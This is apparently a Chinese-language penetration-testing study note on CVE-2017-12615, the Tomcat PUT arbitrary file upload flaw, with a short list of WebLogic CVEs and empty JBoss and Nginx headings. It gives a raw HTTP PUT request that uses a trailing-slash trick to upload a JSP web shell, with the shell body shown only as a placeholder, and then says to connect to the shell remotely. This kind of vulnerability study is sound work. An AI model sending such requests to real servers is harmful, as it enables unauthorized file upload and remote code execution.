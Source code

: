 ##### Tomcat Put 上传

###### 漏洞简介

> `CVE-2017-12615` 任意文件写入漏洞，是由于 `Tomcat` 配置不当，导致可以使用 `PUT` 方式上传任意文件

###### 漏洞原理

在 `Tomcat` 配置文件中设置了 `PUT` 上传方法，在  `web.xml` 文件中，默认 `readonly` 的值为 `true`， 当 `readonly` 设置为 `false` 时，可以通过 `PUT/DELETE` 进行文件操控，从而产生漏洞。

###### 漏洞复现

1. 打开漏洞网页环境（`Tomcat` 首页）

2. 打开 `BP`， 发送 `PUT` 数据包（由于 `Tomcat` 的默认限制，可能无法直接发送 `.jsp` 文件，但是可以通过 `Linux` 的特性，如加 `/` 来绕过）

   ```xml
   PUT /1.jsp/ HTTP/1.1
   Host: ip:8080
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 5
   
   一句话木马
   ```

3. 访问一句话木马（`http://xxx.xxx.xxx/1.jsp`）

4. 使用远程交互攻击，连接一句话木马

### WebLogic 漏洞详解

##### WebLogic 常见漏洞

- WebLogic 控制台路径泄露
- WebLogic 弱口令
- WebLogic SSRF（CVE-2014-4210）
- WebLogic 反序列化（CVE-2015-4852）
- WebLogic 反序列化（CVE-2016-0638）
- WebLogic 反序列化（CVE-2016-3510）
- WebLogic 反序列化（CVE-2017-3248）
- WebLogic 反序列化（CVE-2018-2628）
- WebLogic 反序列化（CVE-2018-2893）
- WebLogic 反序列化（CVE-2018-2894）
- WebLogic XMLDecoder 反序列化（CVE-2017-10271）
- WebLogic XMLDecoder 反序列化（CVE-2017-3506）
- WebLogic 未授权访问（CVE-2020-14883）

### JBoss 漏洞详解

### Ngnix 漏洞详解
